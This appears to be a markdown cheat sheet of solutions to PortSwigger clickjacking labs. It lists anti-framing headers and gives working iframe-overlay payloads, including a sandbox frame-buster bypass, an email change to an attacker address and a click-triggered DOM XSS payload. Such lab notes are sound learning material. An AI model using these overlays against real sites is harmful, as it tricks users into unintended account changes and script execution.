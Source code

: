 # Clickjacking

## Will not work if can se these **headers**:

### X-Frame-Options:

		DENY: Prevents the site from being embedded in any iframe.
		SAMEORIGIN: Allows embedding only if the parent page is from the same origin.
		ALLOW-FROM <URL>: (Less common, partially deprecated) Allows embedding only from a specific origin.

### Content-Security-Policy (CSP):

		frame-ancestors 'none': Completely blocks framing of the page.
		frame-ancestors 'self': Only allows embedding from the same origin.
		frame-ancestors <URL>: Allows embedding only from specified sources.
  
### Example:

```
X-Frame-Options: DENY

Content-Security-Policy: frame-ancestors 'none';
```

## Basic:
```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

## Basic clickjacking with CSRF token protection

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

## Clickjacking with a frame buster script

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

**Frame Busters** are JavaScript that can block clickjacking. 
An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 
Use the **allow-forms** or **allow-scripts** values and the **allow-top-navigation**:
`<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click.

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
	div {
		position:absolute;
		top:610px;
		left:80px;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep clickjacking

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:330px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:330px;
		left:50px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

## Scanning for clickjacking vulnerabilities

If you're using Burp Suite Professional, you can use Burp Scanner to test for clickjacking vulnerabilities:

    Open your target web page in Burp's browser. In this example, we're going to use the My account page of our fictional blog.
    In Proxy > HTTP history, right-click the requests you want to test, then click Do active scan.
    When the scan has finished, go to the Dashboard tab and select the scan from the Tasks list. In the main panel, go to the Issues tab to identify any 	Frameable response issues that Scanner found. These indicate that your target web page is vulnerable to clickjacking attacks.

https://portswigger.net/burp/documentation/desktop/testing-workflow/testing-for-clickjacking

Burp Clickbandit: https://portswigger.net/burp/documentation/desktop/tools/clickbandit
